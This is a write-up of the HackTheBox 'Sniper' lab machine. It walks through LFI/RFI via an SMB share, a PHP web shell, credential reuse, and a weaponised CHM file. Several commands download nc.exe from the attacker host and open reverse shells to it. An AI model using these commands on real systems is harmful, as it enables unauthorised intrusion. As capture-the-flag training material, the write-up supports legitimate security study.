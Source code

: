 ```yaml
---
date: 2025-02-18
categories: [CTF, HTB]
title: "HTB - Sniper"
tags: ['ftp', 'impacket', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'webshell', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Sniper - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Sniper

```bash
nmap 10.129.229.6 -p-
```

![image1](../resources/b0823e0d51b9450f857133a21719c4f4.png)

```bash
nmap 10.129.229.6 -A -p 80,135,139,445,49667
```

![image2](../resources/f01b83f612f5420e9951af814b32cd61.png)

- By selecting a language:

![image3](../resources/9bfd324d519442bf937e248f39b85720.png)

- We can see that a .php file gets included

- This could be a potential LFI (Local File Inclusion)

- We add a known Windows file into the path
  - /Windows\System32\drivers\etc\hosts
  - /windows/win.ini

**(Don't include C:\\ Just add a forward slash / to represent the root directory**


![image4](../resources/1746e4369e2048c6b9ab1ff4abd358eb.png)

And the response:

![image5](../resources/ef9030bf4cc041df9c4fd2532e7e206a.png)

- We can try RFI through http ie. ?lang=//10.10.14.84/test.php
But in the PHP configuration file, "**allow_url_include**" wrapper **by-default set to "Off"** which instruct PHP not to load remote HTTP or FTP URLs

**But it doesn't include SMB**

**<u>Exploit:</u>**
[https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

- Create a file to test (displays php server info):

```bash
echo "<?php phpinfo(); ?>" | tee /tmp/share/test.php

```

- Tried it with impacket-smbserver but we get a connection and it closes

- So following the link above:

```bash
sudo su
apt install samba
mkdir /tmp/share
chmod 0555 /tmp/share
chown -R nobody:nogroup /tmp/share
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
echo > /etc/samba/smb.conf
nano /etc/samba/smb.conf

```

<u>Enter the below into smb.conf:</u>

```bash
[global]

workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[share]
path = /tmp/share
writable = yes
guest ok = yes
guest only = yes
read only = no
directory mode = 0555
force user = nobody
```

```bash
service smbd restart
```

- Note: The **\[share\]** is the sharename
So we have to go to **?lang=\\10.10.14.84\share\test.php**


![image6](../resources/4036e457ef704831bf4c0c0433abe9b3.png)

It worked!

- Now let's get an interactive web shell:

```bash
git clone https://github.com/incredibleindishell/Mannu-Shell.git
cd Mannu-Shell
cp mannu.php /tmp/share

```
**/blog/?lang=\\10.10.14.84\share\mannu.php**


![image7](../resources/5a285eb9a22a4d58b597168183d1c199.png)

We get this weird looking indi web shell

- We can execute commands:

![image8](../resources/f1d4373b3e13496d8882e38daca7bce9.png)

Create a Powershell reverse shell from revshells and execute:


![image9](../resources/ef5dbdfd001141aeae6206c764929558.png)

We get a more stable shell as user **iusr**:


![image10](../resources/6e8f99e8173a46b89951dc8feb4947f4.png)


![image11](../resources/3db899fe59d44200807503c0a9fdf95a.png)

SeImpersonatePrivilege is set
- But I can't exploit that here

Moving on:
- We get credentials in **C:\inetpub\wwwroot\user\db.php**

![image12](../resources/e5e14b52a760451dbdb920ed1b7229fe.png)

**36mEAhz/B8xQ~2VM**

- There is another user - Chris

![image13](../resources/01f20af06aa843e68f07e96bd5336f5c.png)

- We can check if the credentials were reused:  
```bash
crackmapexec smb 10.129.202.21 -u "chris" -p '36mEAhz/B8xQ~2VM'

```

![image14](../resources/55027208299e4240b7cd749dc76848a9.png)

- Checking with powershell:

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;

```

![image15](../resources/3ea1bcd8001c426f8a4ef58e29f74908.png)

- Now we know the credentials are being reused - we can try and get a shell:
**(Msfvenom generated payloads didn't work - only nc.exe worked)**

- Get nc.exe ready
- Start a python http server and a nc listener

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.84/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4444} -credential $credential;

```
**or**

```bash
invoke-command -computer sniper -scriptblock { C:\Users\chris\nc.exe 10.10.14.84 1234 -e powershell.exe } -credential $cred

```

![image16](../resources/f63c862f58734ca09008ed61b556c103.png)

- Got a shell as Chris:

![image17](../resources/4906d7dcef4a45b8be5f661c8633da5d.png)

Looking through the folders, there is a file in Chris' Downloads folder


![image18](../resources/5bc4ecccf002498b822b783c56b253aa.png)

Also, in the C:\\ root directory, there is a Docs folder with some files


![image19](../resources/bed0b474e72247da86751d3c7e88db42.png)

We can read the note.txt file:


![image20](../resources/59ac772837314e7688d40561c52fa705.png)

But the other two files, can't be read on here, so we need to transfer them to our machine:

I tried to use the Samba SMB share but it kept saying Access Denied.

So I stopped the smbd service. And started impacket-smbserver in the directory


![image21](../resources/0f1fa70bac96487f877121b67a033da9.png)


![image22](../resources/9fd3e68c190e4cceb07e2654e3e6c27e.png)

I opened the instructions.chm on a Windows VM:


![image23](../resources/ea267fdc263b4c7689884e526c83b22e.png)

**<u>Exploit:</u>**

Following this guide, we can create a malicious .chm file:

[https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)

- Open a Windows VM
- Download HTML Help Workshop and Documentation program (if not already installed)
- Download the Out-CHM.ps1 module (or copy and paste):
<https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1>

- Open PS as admin and run:  
```powershell
Set-ExecutionPolicy Unrestricted
Import-Module .\Out-CHM.ps1
out-chm -Payload "C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4445" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

![image24](../resources/652b6c86103b4b7391c80a8562fcb169.png)

- Copy the create doc.chm back to the Kali VM and host an SMB share
- Now copy the doc.chm file from Kali to the victim machine C:\Docs folder

- Set up a listener on the port you specified

- And we have a shell back from the Administrator and can read root.txt:

![image25](../resources/6a6f4483d5d541e191d495b2ffb0df47.png)